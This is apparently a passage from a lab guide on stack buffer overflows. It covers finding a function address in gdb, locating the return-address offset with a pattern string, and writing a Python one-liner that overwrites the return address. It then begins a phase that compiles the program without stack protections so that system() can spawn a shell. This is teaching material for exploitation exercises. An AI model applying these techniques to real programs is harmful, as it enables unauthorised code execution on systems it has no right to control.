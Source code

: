    `gdb ./phase1`

   Inside `gdb`, run:

   `info functions secret_function`

   Note down the address displayed for `secret_function`.

3. **Determine the Return Address Location**:
   The goal is to identify where on the stack the return address is so you can overwrite it. 
   
   Given that the buffer is 128 bytes, we'll start by overwriting that. Remember, aside from the buffer, there might be other data between it and the return address. You'll have to experiment a bit.

   ![bufferOverflow.png](bufferOverflow.png)

   Instead of manually entering repeated characters, let's automate it with Python. The following command will send a stream of 128 'A's to fill the buffer, followed by repeated sequences of other uppercase letters. The idea is to see which sequence overwrites the return address. For instance, if the return address shows `0x4242424242`, it indicates that the 'B' sequence is at the location of the return address.

   `python -c "print('A' * 128 + ''.join([chr(i) * 8 for i in range(66, 91)]))" | gdb -q ./phase1 -ex "run"`

4. **Crafting the Exploit**:
   Now that you have located where the return address is, the next step is to replace it with the address of `secret_function`.
   
   For instance, if your offset from the buffer start to the return address was 132 characters and the address of `secret_function` was `0x12345678`, you can exploit the buffer overflow as follows:

   `python -c "print 'A' * 132 + '\x78\x56\x34\x12'" | ./phase1`

Remember, always handle buffer overflows responsibly and ethically. The above is for educational purposes only.

## phase2.c

**Objective**: This phase challenges you to exploit a buffer overflow to execute shell code. The ultimate aim is to invoke the `system()` function to run a shell (`bash`).

### Steps:

1. **Compile the Vulnerable Program**:
   First, we need to compile `phase2.c` in a way that demonstrates the buffer overflow vulnerability:

   ```bash
   gcc -o phase2 phase2.c -fno-stack-protector -z execstack
   ```

2. **Determine the Address of `system()`**:
   Initiate GDB with your compiled binary:

   ```bash
   gdb ./phase2
   ```
